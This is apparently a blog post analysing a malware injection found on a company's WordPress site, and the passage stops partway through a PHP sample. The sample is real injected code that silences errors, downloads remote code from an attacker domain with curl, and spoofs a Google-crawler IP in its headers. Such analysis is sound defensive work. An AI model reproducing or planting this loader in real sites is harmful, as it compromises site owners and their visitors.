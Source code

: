 ```yaml
---
title: "Malware in Wordpress"
description: "Analysis of a malware injection on an enterprise site powered by wordpress."
pubDate: "May 3 2021"
heroImage: "/php-mal.png"
badge: "PHP"
tags: ["PHP", "WordPress", "Malware"]
---
```

## Wordpress Malware, Base64, and PHP
#### Analysis of the code behind the attack.

Recently a friend of mine noticed something weird about her company's website. There were links on the page that were redirecting to http://buymskey.com, which is unsecure since it uses http. 
Immediately I figured that this was some kind of malware that had found it's way into the site and after I found my way into the code I noticed strange files in almost every directory. 

Below is a sample of the code:

 ```php
 //this is require_editor file start
    error_reporting(0);
      set_time_limit(0);
      $log_sure=True;
      $write_file='write_work_complete.log';
  if (file_exists($write_file)==True){
	$get_content=file_get_contents($write_file);
	if ((strpos($get_content, 'confirm:start of editor file') !== false) && (strpos($get_content, 'confirm:end of editor file') !== false)){
		$content=$get_content;
	} else {
		$log_sure=False;
	}
  } else {
	$log_sure=False;
  }
  if($log_sure==False){
	  if(function_exists('curl_init')){
	  $s = curl_init();
	  curl_setopt($s,CURLOPT_URL,'http://mir.buymskey.com/tool/editor.txt');
	  curl_setopt($s,CURLOPT_RETURNTRANSFER,1);
	  curl_setopt($s,CURLOPT_USERAGENT,'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36');
	  curl_setopt($s,CURLOPT_REFERER,"http://www.google.com");
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('X-FORWARDED-FOR:66.249.72.240', 'CLIENT-IP:66.249.72.240'));
	  curl_setopt($s, CURLOPT_HTTPHEADER, array('Expect:'));
	  curl_setopt($s, CURLOPT_ENCODING, "");
	  curl_setopt($s, CURLOPT_SSL_VERIFYPEER, false);
	  curl_setopt($s, CURLOPT_CONNECTTIMEOUT , 20);
	  curl_setopt($s, CURLOPT_TIMEOUT, 20);
		curl_setopt($s, CURLOPT_COOKIE, 'foo=bar');
	$content = curl_exec($s);
	  curl_close($s);
	  }else{
	  $options = array(
	  'http'=>array(
		'method'=>"GET",
		'timeout'=>20,
		'header'=>"Accept-language: en\r\n" .
				  "Cookie: foo=bar\r\n" .  // check function.stream-context-create on php.net
 ```